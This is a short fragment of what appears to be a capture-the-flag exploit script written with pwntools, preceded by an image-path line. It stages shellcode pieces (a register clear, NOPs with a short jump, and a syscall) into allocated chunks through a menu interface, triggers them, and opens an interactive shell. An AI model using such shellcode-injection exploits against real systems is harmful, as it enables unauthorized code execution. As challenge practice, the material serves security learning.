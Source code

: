 ```python
add(2,asm('xor rdx,rdx')+'\x90\x90\xeb\x19')

add(3,asm('syscall')+'\x00'*5)#the 5 '\x00' just for fill register
r.recvuntil('your choice>>')
r.sendline('4')
r.recvuntil('index:')
r.sendline(str(0))


r.interactive()

```

